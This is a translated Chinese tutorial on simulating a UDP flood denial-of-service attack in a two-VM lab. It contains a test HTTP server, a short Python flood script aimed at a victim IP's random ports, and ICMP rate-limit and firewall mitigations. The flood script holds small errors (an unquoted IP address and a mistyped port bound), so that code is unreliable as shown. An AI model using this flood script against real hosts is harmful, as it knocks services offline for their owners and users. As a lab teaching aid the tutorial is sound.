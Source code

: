 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：[chaingangway](https://github.com/chaingangway)
> * 校对者：

# 如何在自己的计算机上模拟 UDP Flood DoS 攻击

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**免责声明：以下教程仅用于教学目的。您只能在自己的计算机上模拟攻击**

UDP 洪水攻击能让服务器拒绝服务，攻击者向目标服务器发送大量 **UDP**（用户数据报文协议）数据包，以压垮服务器处理和响应传入流量的能力。

攻击者将数据包发送到服务器 IP 地址的随机端口。当服务器收到数据包时：

1. 检查是否有程序监听该端口。
2. 如果发现没有程序监听；大部分情况都是这样，因为目标端口是随机的。
3. 返回 **ICMP Destination Unreachable** 的数据包。

攻击者的 IP 地址可以伪装，以防止 ICMP 响应包的身份识别和自身资源饱和。

## 初始化

为了模拟这种攻击，您需要两台虚拟机。网卡必须配置为在子网中并且有自己的地址。我使用的是 VirtualBox 中非常轻量级的两个 BunsenLabs 实例。它们以桥接模式配置网卡。下面是对每个虚拟机的要求：

* **攻击者**的虚拟机需要安装 python3
* **目标服务器**的虚拟机需要安装 python 3.7 及以上版本

#### 服务器端配置

我们将运行一个简单的 HTTP 服务器，以验证服务器受到攻击时性能是否下降。下面是用 Python 编写的服务器端程序。

```py
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

通过地址 localhost: 80 访问服务器。在这个服务器程序中，我们生成了一个非常大的随机数，并故意用非常低效的方法检验它是否为质数。通过这种机制，我们在重新加载浏览器页面时就能大致估计服务器的响应时间。响应时间因硬件的计算能力而异，平均值在 5-10 秒左右。

#### 攻击脚本

我们用下面的 Python 脚本执行攻击，这里用到了 socket。

```py
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

在脚本中，我们可以指定目标的 IP 地址和攻击的持续时间。如上所述，每次发送数据包时，我们都会选择一个不同的端口。

## 攻击

要执行攻击，我们首先需要运行服务器并使用上述方法检查其性能。接下来，在攻击者的虚拟机中，运行执行攻击的脚本。当服务器受到攻击时，由于其忙于处理传入流量并返回 ICMP Destination Unreachable 数据包，我们可以看到其 CPU 使用率在增加。

然后，我们来重新加载浏览器页面并计算服务器的响应时间。很显然看到服务器性能已极具下降。响应时间至少应为正常情况下的两倍。

## 缓解

#### Linux 设置

想缓解 UDP 洪水攻击很难。但是我们可以更改操作系统每秒发送的 ICMP 数据包的数量。我们在Linux中使用这两个命令，例如：

```bash
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

第一条命令让 ICMP 响应的速率仅能通过第二条命令的参数来设置。因此，在这种情况下，使用第二个命令，我们就能设置 ICMP 消息的速率为每秒 1000 条 。

现在我们来验证这一点，对服务器持续攻击 10 秒钟，并在服务器的虚拟机上使用 Wireshark 来拦截响应的 ICMP 数据包，观察数据包的数量是否符合预期。因为我们将速率设置为每秒 1000 个数据包，所以可以看到在 10 秒内大约发送了 10000 个ICMP数据包，这是正确的。

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

我们可以尝试更改此参数，并使用 Wireshark 检查 10 秒钟内发送的数据包数量如何变化。例如，设置速率为每秒 1 条消息，我们可以捕获大约 10 条消息。

```bash
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

为这些参数设置最佳值是个难点。因为最佳值取决于我们的硬件，应用程序以及与服务器交互的平均流量。如果我们减少每秒发送的响应数，虽然能减少服务器的负载，但这只是丢弃了更多传入的请求，而没有发送 ICMP 响应包。通过减少参数的值，我们可能会拒绝合法的请求，没有处理真实用户的流量，这会有更大的风险。因此，我们要有一种折衷的办法。

#### 防火墙

我们还可以使用防火墙来抵御这种攻击。防火墙可以在 UDP 数据包到达服务器之前将其阻止。这样就不会耗费服务器资源。但是，防火墙本身也容易受到此类攻击：它们必须处理传入的流量，并且可能在攻击过程中成为瓶颈。此外，如果我们使用的是状态防火墙，虽然可以轻松地阻止来自同一 IP 地址的攻击，但是如果攻击者使用了 IP 欺骗，防火墙的状态表可能会塞满，可用内存将被耗尽。因此，防火墙也不是终极解决方案。

## 结论

在本文中，我们通过几个简单的步骤模拟攻击，来帮助我们更好地了解其工作原理。您还可以更详细地研究其缓解措施，尝试使用不同的参数来配置服务器。这个过程也很有趣，因为这是一种简单而强大的攻击：如上所述，我们很难采取有效的对策来阻止它。如果您对更复杂的基于 UDP 的攻击感兴趣，请查看[这个](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7)故事，在此我解释了如何利用 NTP 服务器来扩大流量，让受攻击的服务器带宽饱和。

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
